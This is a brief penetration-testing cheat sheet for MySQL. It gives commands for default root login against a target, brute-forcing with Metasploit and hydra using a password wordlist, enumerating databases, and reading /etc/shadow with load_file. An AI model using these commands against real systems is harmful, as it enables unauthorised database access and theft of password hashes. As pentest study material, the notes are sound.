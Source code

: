 # MySQL

# Login to default admin account

```
mysql -u root -h <target>
```

# MySQL brute force attack

```
msf6> use auxiliary/scanner/mysql/mysql_login
```

```
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> mysql
```

# MySQL commands

```
mysql> show databases;
```

```
mysql> select count(*) from authors;
```

```
mysql> use authors
```

```
mysql> select * from authors;
```

```
mysql> select load_file("/etc/shadow");
```